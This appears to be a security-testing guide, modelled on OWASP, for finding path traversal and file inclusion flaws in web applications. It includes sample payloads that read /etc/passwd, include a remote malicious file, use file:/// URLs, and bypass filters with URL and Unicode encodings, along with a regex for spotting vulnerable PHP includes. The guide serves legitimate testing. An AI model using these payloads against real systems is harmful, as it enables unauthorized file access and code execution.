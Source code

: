 # OVERVIEW #

$${\color{green}Summary}$$

Web applications often manage files and rely on input validation to secure them. Poor validation can let attackers access or modify files they shouldn’t be able to, or even run unauthorized code.

$${\color{green}Test \space Objectives}$$

- Find where attackers can exploit path traversal vulnerabilities.
- Assess how bypass techniques can extend path traversal.

# HOW TO TEST #

$${\color{green}Black-Box \space Testing}$$

**1.Input Vectors Enumeration:**
- Identify all user inputs, including URL parameters, form fields, file uploads, and cookies.
- Check for file-related parameters and unusual file extensions. Example checks:
  - `http://example.com/getUserProfile.jsp?item=ikki.html`
  - `http://example.com/index.php?file=content`
  - `http://example.com/main.cgi?home=index.htm`
- Examine cookies that might influence file operations:
  - `Cookie: TEMPLATE=flower`
  - `Cookie: PSTYLE=GreenDotRed`

2.Testing Techniques:
- Path Traversal: Test by manipulating paths to access restricted files:
  - `http://example.com/getUserProfile.jsp?
    item=../../../../etc/passwd`
  - `Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`
- Remote File Inclusion: Test if the application includes files from external sources:
  - `http://example.com/index.php?
    file=http://www.owasp.org/malicioustxt`
- Local and Remote File Access: Test using file protocols and remote paths:
  - `http://example.com/index.php?file=file:///etc/passwd`
  - `http://example.com/index.php?file=http://localhost:8080`
- Encoding Techniques: Try various encodings to bypass filters:
  - URL encoding: `%2e%2e%2f` for `../`
  - Unicode encoding: `..%c0%af` for `../`
- OS-Specific Considerations:
  - Windows: Handles paths flexibly, with some special characters ignored.

$${\color{green}Gray-Box \space Testing}$$

**1.Review Source Code:**
- Search for file inclusion functions and filesystem operations.
  - For PHP: `include()`, `require()`
  - For JSP: `java.io.File()`
  - For ASP: `include file`
- Use code search tools or regex patterns to identify vulnerabilities:
  - PHP: `include|require(_once)?\s*['"(]?\s*\$_(GET|POST|COOKIE)`

**2.Database and Application Logic:**
- Check if path traversal strings are inserted into the database and used in file inclusion.
- Analyze how the application sanitizes or handles invalid inputs to avoid warnings or errors.
